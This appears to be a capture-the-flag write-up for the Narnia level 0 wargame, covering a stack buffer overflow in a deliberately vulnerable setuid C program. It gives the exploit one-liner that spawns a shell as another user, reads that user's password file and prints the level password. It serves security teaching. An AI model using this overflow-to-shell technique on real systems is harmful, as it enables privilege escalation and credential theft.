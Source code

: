 __Narnia :: Level 0__
================


_Caleb Stewart_ | _Sunday, January 17th, 2016_ 

> The goal of this level is to show that the danger of using unsafe functions such as scanf or gets. Your task is to overwrite a local variable using a string prompt. As with most (if not all) narnia levels, the executable in /narnia/narnia0 is setuid for the narnia1 user, and therefore we can gain access to the password by having it execute a shell for us.

> The password for the next level is stored in /etc/narnia_pass/narnia1, which is only readable by the narnia1 user.

----------

If we run the narnia0 executable, we will see that it prompts us to overwrite a value in memory with the common hex phrase `0xdeadbeef`. 

```
narnia0@melinda:/tmp/tmp.zcUOn3DlkL$ /narnia/narnia0
Correct val's value from 0x41414141 -0xdeadbeef!
Here is your chance: Some interesting text. Should I enter 0xdeadbeef?
buf: Some
val: 0x41414141
WAY OFF!!!!
```

As you can see, you can type text in, and it will tell you if you correctly overwrote the variable. There are a few ways we solve this. Firstly, we can dump a huge number of these phrases into the string input and hope we overwrite the correct variable without breaking the program. We could also disassemble the program and attempt to reverse engineer what it does. With this information, we can simply count the difference between the stack variable we want, and the stack location upon calling scanf or gets. While the second solution is more technical and exact, it is also cumbersome and frustrating. I prefer the first solution.

In order to generate a lot of these hex phrases, we can use python. First we will generate the hex encoded string:

``` python
>>> import struct
>>> struct.pack('<I', 0xdeadbeef)
'\xef\xbe\xad\xde'
```

This is a string which, when evaluated by python, creates the binary representation of 0xdeadbeef we need. We can use this to actually dump the repeated binary data into the application. We combine that string with the multiplication operator in python to create, say, 100 copies and pipe them into the executable:

```
narnia0@melinda:/tmp/tmp.zcUOn3DlkL$ python -c "print '\xef\xbe\xad\xde'*100" | /narnia/narnia0 
> Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ
val: 0xdeadbeef
narnia0@melinda:/tmp/tmp.zcUOn3DlkL$ 
```

This looks great at first glance, but if we solved it then were is the password for the next level? We need a shell as narnia1 to continue. If we take a peek at the source code in /narnia/narnia0.c, we get a hint.

``` c
int main(){
        long val=0x41414141;
        char buf[20];

        printf("> Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
        printf("Here is your chance: ");
        scanf("%24s",&buf);

        printf("buf: %s\n",buf);
        printf("val: 0x%08x\n",val);

        if(val==0xdeadbeef)
                system("/bin/sh");
        else {
                printf("> WAY OFF!!!!\n");
                exit(1);
        }

        return 0;
}
```

Near the bottom, `val` is compared, and if it matches, the executable calls `/bin/sh`. This sounds great, but we didn't see a shell open! The problem is that when we run python and pipe it to the program, the input for the shell is then connected to python as well. When python closes, so does the shell. We can fix this by running `cat` in parallel with python. When python finishes, cat will read standard input from us, and send it to the shell we just ran. Here's how we'll do it:

```
narnia0@melinda:/tmp/tmp.zcUOn3DlkL$ (python -c "print '\xef\xbe\xad\xde'*100"; cat) | /narnia/narnia0
> Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ
val: 0xdeadbeef

```

The shell will hang, and you won't have a prompt, but don't fear! Try typing `whoami` and pressing enter. You should see `narnia1` printed to the screen. You shell is running, but you just can't see the prompt. Now, you can simply run `cat /etc/narnia_pass/narnia1`. Here's the whole thing:

```
narnia0@melinda:/tmp/tmp.zcUOn3DlkL$ (python -c "print '\xef\xbe\xad\xde'*100"; cat) | /narnia/narnia0
> Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: ﾭ�ﾭ�ﾭ�ﾭ�ﾭ�ﾭ
val: 0xdeadbeef
ls /etc/narnia_pass/
narnia0  narnia1  narnia2  narnia3  narnia4  narnia5  narnia6  narnia7	narnia8  narnia9
cat /etc/narnia_pass/narnia1
efeidiedae
```

Congratulations! You just solved your first Narnia challenge!
